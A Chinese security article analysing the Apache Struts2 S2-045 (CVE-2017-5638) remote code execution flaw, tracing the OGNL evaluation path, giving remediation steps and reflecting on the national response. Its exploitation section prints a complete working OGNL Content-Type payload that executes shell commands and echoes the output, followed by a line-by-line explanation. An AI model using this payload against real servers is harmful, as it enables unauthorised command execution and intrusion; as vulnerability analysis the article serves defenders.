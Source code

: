 
# 【漏洞分析】S2-045：Apache Struts2 远程代码执行（RCE）漏洞分析


                                阅读量   
                                **268088**
                            
                        |
                        
                                                                                                                                    ![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            





[![](./img/85674/t01a6f34a22f820e327.png)](./img/85674/t01a6f34a22f820e327.png)

作者：[xiaodingdang](http://bobao.360.cn/member/contribute?uid=291519525)

预估稿费：300RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



****

传送门

[](http://bobao.360.cn/learning/detail/3574.html)

[**【漏洞分析】Struts2-045分析（CVE-2017-5638）******](http://bobao.360.cn/learning/detail/3587.html)

[【漏洞分析】S2-045 原理初步分析（CVE-2017-5638）](http://bobao.360.cn/learning/detail/3574.html)

[【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）](http://bobao.360.cn/learning/detail/3571.html)

**<br>**

**0x00 前言**



本文主要是对Apache Struts2（S2-045）漏洞进行原理分析。

Apache Struts2使用的Jakarta Multipart parser插件存在远程代码执行漏洞。可以通过构造Content-Type值进行触发漏洞，造成远程执行代码。影响Struts2版本 Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10

<br>

**0x01 漏洞公布**



大概是北京时间2017年3月6号晚上10点apache发布了S2-045预警公告

详情：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045) 

随后能够得到补丁信息：

[https://github.com/apache/struts/commit/6b8272ce47160036ed120a48345d9aa884477228](https://github.com/apache/struts/commit/6b8272ce47160036ed120a48345d9aa884477228) 

通过apache漏洞公告和补丁信息，可以得到：

1.漏洞发生在 Jakarta 上传解析器

2.受影响struts版本是Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10

3.通过Content-Type这个header头，进而执行命令，通过Strus2对错误消息处理进行回显。

<br>

**0x02 漏洞分析**

Struts2默认处理multipart报文的解析器是jakarta

```
&lt;bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta" class="org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest" scope="prototype"/&gt;
&lt;bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta-stream" class="org.apache.struts2.dispatcher.multipart.JakartaStreamMultiPartRequest" scope="prototype"/&gt;
```

    JakartaMultiPartRequest.java 的buildErrorMessage函数中localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01cb905b2deac0bd27.png)

**    那么总的流程是什么呢？**

    首先会在执行请求前做一些准备工作在PrepareOpertions.java中,包括通过wrapRequest的封装请求。

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015a8b450f47668204.png)

    随后对Content-Type头部进行判断，当存在"multipart/form-data"的时候，会通过mpr，给每个请求返回一个新的实例，保证线程安全，同时交给MultipartRequest类处理

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0111e5a9d753d1a75f.png)

    通过getSaveDir(),来获取保存上传路径

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cc8add7aec194b0a.png)

    MultiPartRequestWrapper类通过获取如下参数，来对收集错误信息，文件信息和默认的本地配置进行封装返回。

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d401e72aa15efd0d.png)

    漏洞发生在MultiPartRequestWrapper会通过调用JakartaMultiPartRequest.java的parse进行解析请求

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01adcef6b98f0b66f7.png)

    parse函数又会调用buildErrotMessage()方法

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0102af2252f9273515.png)

      而buildErrorMessage()方法又调用了LocalizedTextUtil的findText方法，导致了ONGL的执行。

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01efcdd3138d9ede50.png)

<br>

**0x03 漏洞利用**

通过构造content-Type来实现利用

```
Content-Type:"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

 xxx='multipart/form-data'主要是让struts程序content_type.contains(“multipart/form-  data”)判断为true

```
#container=#context['com.opensymphony.xwork2.ActionContext.container']
来获取上下文容器
```

```
#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class  
通过容器实例化，对Ognl API的通用访问，设置和获取属性。
```

```
#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd })
判断目标主机的操作系统类型，并进行执行命令赋值
```

```
#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
执行攻击命令
```

<br>

**0x04 漏洞修复**

1. 可升级版本到Apache Struts 2.3.32或者Apache struts 2.5.10.1

2.官方补丁

[https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b](https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b)

随笔感想：

这么严重的安全事件，在3月7号早上poc和exp就被泄露出来了，可以说给企业留给应急的时间很短，一时间无数人通过搜索引擎去利用s2-045进行利用，根据受影响的站点，政府和学校应该是受影响最大的组织。引用heige话一时间如同蝗虫般侵袭着网站，但是让人欣慰的是国家对于安全问题越来越重视，近几年在安全方面投入的加大，各公司的安全应急做的很快，尤其是互联网公司。基本3月8号晚上基本都完成了对s2-045漏洞的修复。

**这里面我觉得有几个方面原因：**

1.     国内存在着像补天，漏洞盒子等这样的漏洞收集平台（据说审核人员这次一晚上审核上千个漏洞），对于漏洞通报，快速响应至关重要，最让人眼前一亮的是还在beta测试阶段的教育行业漏洞报告平台([https://src.edu-info.edu.cn/](https://src.edu-info.edu.cn/)  )，可以说对于学校处理s2-045漏洞发挥了很大的作用。

[![](./img/85674/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011942b8092558bf68.png)

2.     国内对于安全的重视，安全人员的培养，安全行业的宣传，使更多人和大学生接触到了安全行业，这才导致了大量的人员去平台提交漏洞，大部分安全从业者还是懂法，具有道德底线的，知道什么事可以干，什么事不行。

3.     随着国内安全行业的发展，涌现了一批从事安全专业公司包括bat3，不管是安全服务还是安全设备防护等等，极大的提高了企业的安全防护能力和安全意识。

最后，我觉得从这次事件可以看出，国内对于重大安全事件的应急响应能力有了质的飞跃。

<br>



传送门

[](http://bobao.360.cn/learning/detail/3574.html)

[**【漏洞分析】Struts2-045分析（CVE-2017-5638）**](http://bobao.360.cn/learning/detail/3587.html)

[【漏洞分析】S2-045 原理初步分析（CVE-2017-5638）](http://bobao.360.cn/learning/detail/3574.html)

[【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）](http://bobao.360.cn/learning/detail/3571.html)

<br>
